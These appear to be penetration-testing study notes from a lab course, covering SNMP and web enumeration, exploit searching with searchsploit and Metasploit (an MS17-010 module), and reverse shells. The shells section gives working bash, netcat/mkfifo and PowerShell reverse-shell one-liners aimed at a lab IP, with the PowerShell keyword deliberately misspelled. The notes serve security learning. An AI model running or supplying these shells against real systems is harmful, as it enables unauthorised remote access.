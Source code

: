 		- `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` 

# Web enumeration

Web enumeration
- GoBuster
	- `gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
		- Normal mode: append the word at the end
	- Can also do this in dns mode
		- `gobuster dns -d example.com -w /usr/share/seclists/Discovery/DNS/namelist.txt
		- DNS mode: word as prefix, eg. admin.example.com
- Tips
	- Banner grabbing
		- Can use CURL to retrieve server header information
			- `curl -IL https://example.com`
		- WhatWeb
			- `whatweb 10.10.10.121`
	- Look for
		- Certificates (may reveal email and company name)
		- robotx.txt file in website
		- Ctrl+U for source code

Public exploits
- Googling
- Searchsploit
	- install with `sudo aapt install exploitdb -y`
	- Then, 
		- `sudo searchsploit openssh 7.2`
- Online exploit databases
	- Exploit DB, Rapid7 DB, Vuln Lab
- Metasploit
	- `msfconsole`
		- `search exploit`
			- can run filters, eg. `search cve:2009 type:exploit`
			- `help search` to see filters
		- `use exploit/windows/smb/ms17_010_psexec`
		- `show options`
			- modify options with set
				- `set RHOSTS 10.10.10.40`
					- LHOST is attack host, RHOSTS is target
					- If using a VPN, set LHOST to the IP associated with our tun0 interface [[VPN]]
		- `check`
			- see if host is actually vulnerable
		- `run` or `exploit`
- If wordpress:
	- wpscan

# Shells

Types of Shells
- Reverse shell
	- First, start a netcat listener on our OWN machine on a specific port
		- `nc -lvnp 1234`
	- Then execute a reverse shell command that connects the remote systems shell, ie. Bash/Powershell to the nc listener
		- `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
		- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`
		- `ppppppowershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`
			- remove the extra p's from the first word